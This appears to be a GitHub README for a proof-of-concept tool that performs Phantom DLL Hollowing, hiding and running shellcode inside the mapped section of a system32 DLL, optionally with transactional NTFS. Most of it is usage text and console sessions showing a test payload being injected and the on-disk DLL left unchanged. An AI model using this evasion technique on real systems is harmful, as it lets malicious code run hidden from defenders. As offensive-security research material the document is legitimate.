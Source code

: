 # Phantom DLL Hollower

This PoC performs Phantom DLL Hollowing which reported by [@_forrestorr](https://twitter.com/_forrestorr).

```
C:\Tools>PhantomDllHollower.exe

PhantomDllHollower - Tool for testing Phantom DLL Hollowing.

Usage: PhantomDllHollower.exe [Options]

        -h, --help    : Displays this help message.
        -p, --payload : Specifies shellcode to execute.
        -t, --txf     : Flag to use TxF. This option requires administrative privilege.

[!] -p option is required.
```

![phantom-dll-hollowing.png](./figures/phantom-dll-hollowing.png)

To use this PoC, specifies shellcode file you want to execute as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>PhantomDllHollower.exe -p calc.bin

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
[+] Got target module path.
    [*] Target : C:\Windows\system32\aadauthhelper.dll
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x2CC
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF86D2C0000.
[>] Trying to write shellcode to payload section's entry point.
    [*] Entry Point @ 0x00007FF86D2C2900
[+] Shellcode is written successfully.
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30140      74824       0.34   7760   1 CalculatorApp



C:\Tools>
```

If you want to use TxF technique, set `-t` flag as well as shellcode file path.
This option requires administrative privilege:

```
C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[+] Got target module path.
    [*] Target : C:\Windows\system32\concrt140.dll
[>] Trying to generate payload data.
[+] Payload data is generated successfully.
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x318
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF863F80000.
    [*] Shellcode @ 0x00007FF863FAD030
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30136      55972       0.30   7504   1 CalculatorApp



C:\Tools>
```

If you set `-t` flag without administrative privilege, failed to search target DLL as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[-] Failed to find abusable module. You may not have sufficient privileges.


C:\Tools>powershell -c Get-Process calc*

C:\Tools>
```

## References

* [Masking Malicious Memory Artifacts – Part I: Phantom DLL Hollowing](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)

* [GitHub - forrest-orr/phantom-dll-hollower-poc](https://github.com/forrest-orr/phantom-dll-hollower-poc)